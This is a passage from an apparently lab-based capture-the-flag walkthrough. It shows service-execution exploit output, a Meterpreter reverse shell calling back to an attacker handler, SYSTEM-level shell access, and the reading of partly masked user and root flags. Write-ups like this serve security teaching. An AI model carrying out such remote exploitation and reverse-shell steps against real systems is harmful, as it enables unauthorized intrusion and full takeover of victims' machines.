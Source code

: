 ```
Creating service OuBS.....
Starting service OuBS.....
The NETBIOS connection with the remote host timed out.
Removing service OuBS.....
ServiceExec Error on: 10.10.10.40
nca_s_proto_error
Done
```
If we go back to the reverse handler we see a meterpreter session has opened
```
[*] Sending stage (180291 bytes) to 10.10.10.40
[*] Meterpreter session 1 opened (10.10.14.39:9999 -> 10.10.10.40:49161) at 2019-10-22 01:01:24 -0400

meterpreter > 
```
From here we can use the ```shell``` command to give us a windows shell. We can run ```whoami``` to show that we are indeed ```NT AUTHORITY/SYSTEM```.From here we can grab both the user and root flag.
<br>
The ```user.txt``` flag is located in ```C:\Users\haris\Desktop\user.txt```.
```
C:\Users\haris\Desktop>type user.txt
type user.txt
4c546aea7dbee75c****************
```
The ```root.txt``` flag is located in ```C:\Users\Administrator\Desktop\root.txt```.
```
C:\Users\Administrator\Desktop>type root.txt
type root.txt
ff548eb71e920ff6****************
```
<br><br><br><br>

